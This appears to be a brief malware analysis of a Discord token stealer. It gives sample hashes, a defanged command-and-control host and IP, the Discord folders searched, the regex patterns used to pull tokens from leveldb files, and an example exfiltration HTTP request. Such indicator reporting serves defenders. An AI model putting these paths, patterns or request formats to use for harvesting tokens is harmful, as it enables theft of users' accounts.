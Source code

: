 dd9500549f285c9095198f81a1aeff4910dd361ee79ed0fb9bc103e3a708


```
centralcity.brazilsouth.cloudapp[.]azure[.]com 191.239.244.78
```



checks for 
```
Roaming\discord
Roaming\discordptb
Roaming\discordcanary
```

If found checks files in Local Storage\leveldb\ for tokens by reading files and using regex patterns

```
mfa\.[\w-]{84}
[\w-]{24}\.[\w-]{6}\.[\w-]{27}
```


Sends data to

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/brancao
```

Another sample:
c16c3e17fa5eb849033825b24c813242be3fcd9e1b48ea52c816a9b0b8d6e856

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/wl
```

Another sample:
ced418253024655d11588b97aba24aad3e80d215a1ed4ca1f7a8bf8ecf623216

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/tokyo
```


C2 traffic would look like this

```
GET /brancao HTTP/1.1
Host: centralcity.brazilsouth.cloudapp[.]azure[.]com
User-Agent: Go-http-client/1.1
Content-Length: 23
Sharkflow: mfa.012345678901234567890123456789012345678901234567890123456789012345678901234567891234
Accept-Encoding: gzip

{"foda-se": "kkkkkkkk"}

```
